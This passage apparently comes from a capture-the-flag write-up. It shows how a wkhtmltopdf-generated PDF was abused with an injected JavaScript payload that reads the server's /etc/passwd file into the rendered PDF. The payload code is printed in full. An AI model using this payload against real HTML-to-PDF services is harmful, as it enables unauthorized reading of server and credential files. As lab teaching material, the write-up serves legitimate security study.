 ![alt text](../../assets/images/token-of-hate/image-9.png)

Using `exiftool`, we see it was generated with `wkhtmltopdf 0.12.6`, a popular tool for transforming `HTML` into `PDF`.

We modify the `script.js` file on our python web server in an attempt to read files from the server.

```javascript
x=new XMLHttpRequest;
x.onload=function(){
  document.write("<pre>"+this.responseText+"</pre>");
};
x.open("GET","file:///etc/passwd");
x.send();
```

We download the PDF and obtain the `/etc/passwd` file.
